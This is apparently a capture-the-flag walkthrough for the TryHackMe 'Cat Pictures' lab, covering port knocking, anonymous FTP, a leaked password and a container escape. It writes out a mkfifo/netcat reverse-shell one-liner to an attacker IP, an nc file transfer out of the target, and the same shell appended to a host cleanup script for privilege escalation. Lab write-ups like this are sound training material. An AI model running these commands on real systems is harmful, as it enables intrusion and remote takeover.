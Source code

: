 ```yaml
---
title: Cat Pictures 1
published: 2023-07-11
description: 
image: ./cover.png
tags:
  - easy
  - thm
category: Walkthroughs
draft: false
---
```

Let's start with a nmap scan

```bash
nmap 10.10.34.107
```

![](./1.png)
we a see a web page in port 8080 and its running phpbb

![](./2.png)

after going through the website we found it is version 3.3.x and there is no know vulnerability for it.

the site has a single post 

POST ALL YOUR CAT PICTURES HERE
Knock knock! Magic numbers: 1111, 2222, 3333, 4444

The post gives us a hint to perform port knocking

https://www.bugcrowd.com/glossary/port-knocking/

To perform port knocking clone this git repo
https://github.com/grongor/knock

```bash
git clone https://github.com/grongor/knock

cd knock

./knock 10.10.34.107 1111 2222 3333 4444
```

![](./3.png)

Now lets scan for all open ports
```bash
sudo nmap -sS 10.10.34.107 -p- -v -T 4 
```

![](./4.png)


we can see that port 21 (ftp) is open. Now lets connect to the server through ftp.

![](./5.png)


anonymous login was turned on we found a note.txt

![](./6.png)



```
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.

Connect to port 4420, the password is sardinethecat.
- catlover
```

now lets connect to port 4420

![](./7.png)

like it said cd command is not working and there is a file runme im /home/catlover which cannot be executed on this shell

![](./8.png)

now lets break out of this shell
looks like we have mkfifo and nc

![](./9.png)

let's search for a payload in revshells.com for this 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.54.133 9001 >/tmp/f
```

![](./10.png)

![](./11.png)


now lets try running the runme file

![](./12.png)


it requires a password to run it

let's copy the executable to our local machine using nc

Run a listener on the attacker machine

```bash
nc -l -p 1234 > runme
```

send the file from the target box

```bash
nc -w 3 10.17.54.133 1234 < runme
```

![](./13.png)


we got our executable to our machine. let's analyse it

```bash
strings runme
```

![](./14.png)

![](./15.png)

now let's copy the id_rsa to our machine and ssh to the server

![](./16.png)

looks like we are the root

![](./17.png)

we got the 1st flag and we are in a docker container

![](./18.png)

when we look into the mounted folders we are able to see a partition directly mounted from machine

![](./19.png)

there is abash script which clears the /tmp/folder

![](./20.png)

let's change the code of the "clean.sh" to the revshell we used earlier

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.54.133 9001 >/tmp/f" >> clean.sh
```

![](./21.png)

since there is no cronjobs running in this machine and the files I create in the tmp folder is not deleted. the clean.sh is running the host machine. so lets wait for the code to run

![](./22.png)

And here we go, we got the flag.